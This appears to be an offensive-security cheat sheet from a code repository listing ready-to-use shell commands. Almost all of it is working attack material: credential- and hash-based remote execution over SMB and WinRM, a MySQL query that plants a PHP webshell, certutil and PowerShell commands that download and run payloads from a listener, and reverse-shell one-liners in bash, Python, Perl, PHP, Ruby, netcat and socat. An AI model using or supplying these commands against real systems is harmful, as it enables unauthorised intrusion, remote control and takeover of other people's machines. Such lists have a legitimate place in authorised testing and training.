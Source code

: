 # Shells


## Windows Shell

### SMB

```bash
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
python psexec.py '<user>:<pass>@<target>'
psexec @targets.txt -u domain\user -p password -s command

crackmapexec smb --exec-method wmiexec <host> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method smbexec <host_file> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method atexec <host> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method mmcexec <host> -u <user> -d <domain> -H <hash> -x <command>

WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
```

### WinRM

```bash
gem install evil-winrm
evil-winrm -i <target> -u <user> -p '<pass>'
```

---


## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell


### Check outgoing ports 

**Internet**

- [portquiz](http://portquiz.net/)

**local** 

```bash
# Generate and execute on target
msfvenom -p windows/meterpreter/reverse_tcp_allports -f exe > test_firewall.exe

# Listen for incoming traffic
tcpdump -ni any host <target>
```
### CMD

```bash
certutil -urlcache -split -f http://<listener_ip>:1234/shell.exe C:\Windows\Temp\shell.exe & start "" C:\Windows\Temp\shell.exe
```

### Powershell

```bash
Invoke-WebRequest -Uri "http://<listener_ip>:1234/nc.exe" -OutFile "nc.exe" & .\nc.exe -e cmd.exe <listener_ip> 1234

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://<listener_ip>:1234/shell.ps1')|iex"
```


### Bash

```bash
bash -i >& /dev/tcp/<ip_listener>/1234 0>&1

msfvenom -p linux/x64/shell_reverse_tcp LHOST=<listener_ip> LPORT=1234 -f elf > /var/www/html/shell.elf
wget <ip_listener>:1234/shell.elf -O /tmp/shell.elf && chmod 777 /tmp/shell.elf && /tmp/shell.elf &
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Perl

```bash
perl -e 'use Socket;$i="<ip_listener>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


### PHP

```bash
php -r '$sock=fsockopen("<ip_listener>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("<ip_listener>",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


### Netcat

```bash
nc -e /bin/sh <ip_listener> 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip_listener> 1234 >/tmp/f
```

### Socat

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip_listener>:1234
socat TCP4-LISTEN:1234,reuseaddr,fork EXEC:/home/leak
```




---

## Get better BASH shell 

Using socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:1234

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listener_ip>:1234  
```

Using stty

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !

## Metasploit 

```bash
#Upload, hide and exec
execute -H -i -c -m -d calc.exe -f /home/toto/exploit.exe -a '-arg1 -arg2 -arg3'
```

